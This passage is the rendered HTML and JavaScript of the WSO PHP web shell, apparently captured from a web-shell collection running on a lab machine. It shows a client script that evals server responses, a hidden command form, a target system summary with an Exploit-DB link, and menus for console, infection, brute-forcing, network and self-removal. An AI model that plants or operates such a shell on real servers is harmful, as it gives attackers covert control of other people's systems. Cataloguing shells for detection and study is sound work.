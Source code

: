 					var arr=reg.exec(req.responseText);
					eval(arr[2].substr(0, arr[1]));
				} else alert('Request error!');
		}
	</script>
	<head><body><div style='position:absolute;background-color:rgba(95, 110, 130, 0.3);width:100%;top:0;left:0;'>
	<form method=post name=mf style='display:none;'>
	<input type=hidden name=a>
	<input type=hidden name=c>
	<input type=hidden name=p1>
	<input type=hidden name=p2>
	<input type=hidden name=p3>
	<input type=hidden name=charset>
	</form><table class=info cellpadding=3 cellspacing=0 width=100%><tr><td width=1><span>Uname:<br>User:<br>Php:<br>Hdd:<br>Cwd:</span></td><td><nobr>Linux ubuntu 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 <a href="http://noreferer.de/?http://www.google.com/search?q=Linux+ubuntu+3.19.0-25-generic+%2326%7E14.04.1-Ubuntu+SMP+Fri+Jul+24+21%3A16%3A20+UTC+2015+x86_64" target="_blank">[ Google ]</a> <a href="http://noreferer.de/?http://www.exploit-db.com/search/?action=search&description=Linux+Kernel+3.19.0" target=_blank>[ Exploit-DB ]</a></nobr><br>33 ( www-data ) <span>Group:</span> 33 ( www-data )<br>5.5.9-1ubuntu4.19 <span>Safe mode:</span> <font color=#FFDB5F><b>OFF</b></font> <a href=# onclick="g('Php',null,null,'info')">[ phpinfo ]</a> <span>Datetime:</span> 2016-11-03 22:42:29<br>18.58 GB <span>Free:</span> 13.12 GB (70.62%)<br><a href='#' onclick='g("FilesMan","/")'>/</a><a href='#' onclick='g("FilesMan","/var/")'>var/</a><a href='#' onclick='g("FilesMan","/var/www/")'>www/</a><a href='#' onclick='g("FilesMan","/var/www/html/")'>html/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/")'>webshell-master/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/php/")'>php/</a><a href='#' onclick='g("FilesMan","/var/www/html/webshell-master/php/wso/")'>wso/</a> <font color=#FFDB5F><b>drwxrwxrwx</b></font> <a href=# onclick="g('FilesMan','/var/www/html/webshell-master/php/wso','','','')">[ home ]</a><br></td><td width=1 align=right><nobr><label><select onchange="g(null,null,null,null,null,this.value)"><option value="UTF-8" selected>UTF-8</option><option value="Windows-1251" >Windows-1251</option><option value="KOI8-R" >KOI8-R</option><option value="KOI8-U" >KOI8-U</option><option value="cp866" >cp866</option></select></label><br><span>Server IP:</span><br>192.168.182.143<br><span>Client IP:</span><br>192.168.182.1</nobr></td></tr></table><table style="background-color:#2E6E9C;" cellpadding=3 cellspacing=0 width=100%><tr><th>[ <a href="#" onclick="g('SecInfo',null,'','','')">Sec. Info</a> ]</th><th>[ <a href="#" onclick="g('FilesMan',null,'','','')">Files</a> ]</th><th>[ <a href="#" onclick="g('Console',null,'','','')">Console</a> ]</th><th>[ <a href="#" onclick="g('Infect',null,'','','')">Infect</a> ]</th><th>[ <a href="#" onclick="g('Sql',null,'','','')">Sql</a> ]</th><th>[ <a href="#" onclick="g('Php',null,'','','')">Php</a> ]</th><th>[ <a href="#" onclick="g('SafeMode',null,'','','')">Safe mode</a> ]</th><th>[ <a href="#" onclick="g('StringTools',null,'','','')">String tools</a> ]</th><th>[ <a href="#" onclick="g('Bruteforce',null,'','','')">Bruteforce</a> ]</th><th>[ <a href="#" onclick="g('Network',null,'','','')">Network</a> ]</th><th>[ <a href="#" onclick="g('Logout',null,'','','')">Logout</a> ]</th><th>[ <a href="#" onclick="g('SelfRemove',null,'','','')">Self remove</a> ]</th></tr></table><div><h1>File manager</h1><div class=content><script>p1_=p2_=p3_="";</script><script>
		function sa() {
			for(i=0;i<d.files.elements.length;i++)
				if(d.files.elements[i].type == 'checkbox')
					d.files.elements[i].checked = d.files.elements[0].checked;
		}
	</script>
	<table width='100%' class='main' cellspacing='0' cellpadding='2'>